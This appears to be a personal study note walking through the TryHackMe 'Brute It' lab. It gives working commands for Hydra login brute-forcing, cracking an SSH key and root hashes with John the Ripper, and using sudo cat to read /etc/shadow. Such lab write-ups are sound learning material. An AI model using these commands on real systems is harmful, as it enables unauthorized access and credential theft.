 
2024-07-28 20:06

Source: #tryhackme #privesc #Boot2root 

Tags:  [[Cryptography]]
#### Hydra brute force

we have a website that has a simple login page with username and password 
we find the username from the source code 
use [[Tags/hydra]] to brute force the password
```sh
└─$ hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.91.80 http-post-form '/admin/:user=^USER^&pass=^PASS^:Username or password invalid'
```
#### cracking rsa 

- after logging in the website we find a [[ssh (22 port)]] `rsa` private key, `wget` it from the website  
- The special John the Ripper tool called **ssh2john.py** which can extract the crackable hash from the [[RSA]] private key. (don't save o/p in a text file)
```
/usr/share/john/ssh2john.py id_rsa  > rsa.hash
```
- then user `rockyou` wordlist with john to crack the pass 
- `chmod` the original `id_rsa` file - `chmod 600 id_rsa`
- use `ssh` to login as john
#### using John

Adding the option `--rules=wordlist` to your [[john]] command line generates multiple passwords from each one. For instance, it appends and prepends single digits, use this if the password isn't cracked by using a wordlist (its like data augmentation)

```sh
john --format=raw-sha256 --rules=wordlist --wordlist=/usr/share/wordlists/rockyou.txt hash1.txt
```

- if a password protected pdf is there use `pdf2john.pl private.pdf > pdf.hash` to convert the pdf to a hash
- further crack the hash 
- in order to open a pdf file we can convert it into text  `pdftotext private.pdf -upw <password>`

#### Priv esc

- `sudo -l` -> can run `cat` with sudo
- go to gtfobins and find exp. for `cat `
- since you can cat files using `sudo` , `cat /etc/shadow` and get a hash of the root pass which you further crack using john 
- Before we use John the Ripper to find out the root’s password we need to put it in a format that john will understand. To do this we will use the unshadow command. 
`/etc/passwd` and `/etc/shadow` files are passwd.txt and shadow.txt respectively 
```sh
unshadow passwd.txt shadow.txt > pass.txt
john --wordlists=../rockyou.txt pass.txt
john --show pass.txt
```
- `sudo cat` the `root/root.txt` and get the flag
### References

[TryHackMe | Brute It](https://tryhackme.com/r/room/bruteit)
[TryHackMe: Brute It - Eric Logan](https://eric.cc/tryhackme-brute-it/)
[TryHackMe | Brute It Walkthrough | Medium](https://enescayvarli.medium.com/tryhackme-bruteit-walkthrough-e93e3f29c233)

Linpeas - [linpeas | grimbins](https://grimbins.github.io/grimbins/linpeas/)